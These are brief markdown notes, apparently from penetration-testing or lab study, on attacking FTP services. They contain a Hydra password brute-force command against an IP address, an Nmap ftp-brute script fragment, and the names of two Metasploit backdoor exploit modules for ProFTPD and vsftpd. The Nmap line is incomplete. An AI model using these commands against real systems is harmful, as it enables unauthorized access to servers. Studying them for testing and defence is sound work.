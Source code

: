 # Hydra

- `hydra -L <userlist> -P <passlist> 192.235.127.3 -t 4 ftp`
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Nmap script
- echo "sysadmin" > users
- ftp-brute --script-args userdb=/root/users

# Metasploit modules

- exploit/unix/ftp/proftpd_133c_backdoor
- exploit/unix/ftp/vsftpd_234_backdoor
